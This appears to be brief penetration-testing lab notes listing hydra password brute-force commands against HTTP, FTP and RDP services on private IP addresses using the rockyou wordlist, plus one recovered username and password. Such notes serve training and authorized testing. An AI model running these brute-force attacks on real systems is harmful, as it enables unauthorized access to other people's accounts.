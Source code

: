 ### hydra on http service
hydra -l itadmin -P /usr/share/wordlists/rockyou.txt 192.168.141.202 -s 5985 http-get /

hydra -l itadmin -P /usr/share/wordlists/rockyou.txt ftp://192.168.141.202

*** itadmin hellokitty

hydra -l nadine -P /usr/share/wordlists/rockyou.txt rdp://192.168.214.227
